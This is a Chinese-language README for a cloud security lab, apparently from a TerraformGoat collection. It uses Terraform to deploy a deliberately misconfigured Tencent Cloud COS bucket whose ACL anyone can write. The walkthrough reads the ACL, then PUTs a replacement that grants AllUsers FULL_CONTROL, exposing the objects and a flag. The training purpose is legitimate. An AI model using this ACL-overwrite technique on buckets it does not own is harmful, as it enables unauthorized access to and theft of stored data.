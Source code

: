# 腾讯云 COS Bucket ACL 可写漏洞环境

[English](./README.md) | 中文

## 描述信息

这是一个用于构建腾讯云 COS Bucket ACL 可写的漏洞环境靶场。

使用 Terraform 构建环境后，用户可以通过修改 Bucket 的 ACL 策略将原本无法访问的资源修改为可读，从而访问到 COS 服务资源。

## 环境搭建

在容器中执行以下命令

```shell
cd /TerraformGoat/tencentcloud/object_storage_service/bucket_acl_writable/
```

编辑 `terraform.tfvars` 文件，在文件中填入你的`tencentcloud_app_id`、`tencentcloud_account_id`、`tencentcloud_secret_id`和`tencentcloud_secret_key`

```shell
vim terraform.tfvars
```

> * 在腾讯云控制台的[账号信息](https://console.cloud.tencent.com/developer)处可以看到您的账号 ID 和 APPID
> * 在腾讯云控制台的 [API 密钥管理](https://console.cloud.tencent.com/cam/capi)可以创建和查看您的 SecretID 和 SecretKey

部署靶场

```shell
terraform init
terraform apply
```

> 在终端提示 `Enter a value:` 时，输入 `yes` 即可

当命令执行完后，在 Outputs 处可以看到 Bucket 名称，这个 Bucket 存在 Bucket ACL 读取和写入权限

## 漏洞利用

尝试遍历 Object，发现访问被拒绝

![img](../../../images/1652347780.png)

尝试读取 Bucket 的 ACL 策略，发现可以读取

```shell
https://houxianxxxxx-1234567890.cos.ap-beijing.myqcloud.com/?acl
```

![img](../../../images/1652347858.png)

尝试使用 PUT 方法修改 Bucket 的 ACL 策略

原来的 ACL 策略

```xml
<Grant>
  <Grantee xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="Group">
    <URI>http://cam.qcloud.com/groups/global/AllUsers</URI>
  </Grantee>
  <Permission>WRITE_ACP</Permission>
</Grant>
<Grant>
  <Grantee xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="Group">
    <URI>http://cam.qcloud.com/groups/global/AllUsers</URI>
  </Grantee>
  <Permission>READ_ACP</Permission>
</Grant>
```

新的 ACL 策略

```xml
<Grant>
  <Grantee xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="Group">
    <URI>http://cam.qcloud.com/groups/global/AllUsers</URI>
  </Grantee>
  <Permission>FULL_CONTROL</Permission>
</Grant>
```

![img](../../../images/1652348202.png)

再次尝试遍历 Object，发现已经可以遍历到了，说明刚才上传的 ACL 策略生效了，在返回的信息中可以看到 flag

![img](../../../images/1652348264.png)

## 销毁环境

```shell
terraform destroy
```
